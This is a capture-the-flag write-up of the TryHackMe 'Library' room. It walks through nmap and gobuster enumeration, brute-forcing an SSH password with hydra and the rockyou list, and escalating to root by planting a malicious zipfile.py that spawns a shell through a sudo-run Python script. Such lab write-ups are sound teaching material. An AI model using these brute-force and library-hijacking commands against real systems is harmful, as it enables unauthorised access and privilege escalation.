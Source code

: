 ```yaml
---
title: "TryHackMe - Library"
author: Nasrallah
description: ""
date: 2022-11-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hijacking, python, hydra, bruteforce]
img_path: /assets/img/tryhackme/library
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Library](https://tryhackme.com/room/bsidesgtlibrary) from [TryHackMe](https://tryhackme.com). The machine is running ssh and a web server, we find a username in the web page then brute force the password of ssh and get foothold. After that we use library hijacking to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.200.89
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and 80 running Apache http web server.

## Web

Let's navigate to the web page.

![](1.png)

Here we have a blog with one post. Looking through this page, we find a possible username.

![](2.png)

Now let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.200.89
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 06:14:00 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/images               (Status: 301) [Size: 313] [--> http://10.10.200.89/images/]
/index.html           (Status: 200) [Size: 5439]                                 
/robots.txt           (Status: 200) [Size: 33]                                   
/server-status        (Status: 403) [Size: 300]                                  
===============================================================
```

Let's check robots.txt file.

![](3.png)

It says rockyou.

# **Foothold**

Let's brute force ssh with username we found and rockyou list.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh 
```

![](4.png)

Great! We got the password, let's login.

![](5.png)



# **Privilege Escalation**

Let's check our privilges.

![](6.png)

There is a python script file we can run as root in our home directory.

Let's check the file

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()

```

We the script import two modules, `os` and `zipfile`, and they get called later in the script.

We can use a technique called `Python library hijacking`, how this technique works is when importing a module within a script, python will search that module file throughout a predefined directories in a specific order of priority, but if there exists a python module file in the same directory as the original script.

Now create file named `zipfile.py`, then write the following code in it.

```python
import os; os.system("/bin/bash")
```

Then we run the python script `bak.py` with sudo.

```bash
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/bash")' > zipfile.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# whoami
root
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 

```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
